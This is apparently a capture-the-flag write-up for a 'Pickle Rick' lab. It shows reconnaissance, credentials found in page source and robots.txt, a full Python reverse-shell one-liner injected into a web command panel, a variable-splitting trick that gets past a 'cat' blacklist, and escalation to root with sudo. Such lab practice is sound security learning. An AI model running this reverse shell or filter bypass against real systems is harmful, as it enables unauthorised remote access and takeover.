 # Pickle And Morty WriteUp

Write up for pickle and morty challenge

## Reconnaissance

Use Nmap, we'll get 2 ports:
1. 22(SSH)
2. 80(TCP)

When we access using port 80, and open the developer tools, we'll see the command with a username 
**(R1ckRul3s)**

I tried to use Hydra to access ssh with that username but it seems that ssh access but it didn't work

So i tried to use **gobuster**, to  bruteforce all directory that available:

```sh
gobuster dir -u [web_ip] -w [dir_lists] php,js,py
```
and here's some directories I found:
index.html
portal.php

After that we need to input username, and password that I haven't found yet.

I tried to find dissalow dir in robots.txt and found:
**(Wubbalubbadubdub)**

we can use it as password in portal.php and able to access the dashboard.

## Information

Username: R1ckRul3s
password: Wubbalubbadubdub
Some Kind base64 decode text: rabbit hole


## Reverse Shell

inject python reverse shell command in text area
```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[Your_tun0_IP]",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

## Gaining Root Access

after we get the reverse shell, I tried to run:

```sh
	sudo bash
```
that so we wil run the bash as root

## Ingredients:

### First Ingreditents
we'll get the first ingredient in the portal.php, but ```cat``` was blacklisted, so we use:
```sh
	a=ca b=at c={ingredientstextfile} d=.txt;$a$b ${c}${d} 
```
which wil result to 
```sh
	cat {ingredientstextfile}.txt 
```
And give us the first inggredients: **{first ingredients}**

### Second Ingredients
after we gain the reverse shell, go to /home/rick , and 
you'll found the second inggredients:**{second ingredients}**

### Third Ingredients
after we got the root access, we'll find the third ingredients: **{third ingredients}**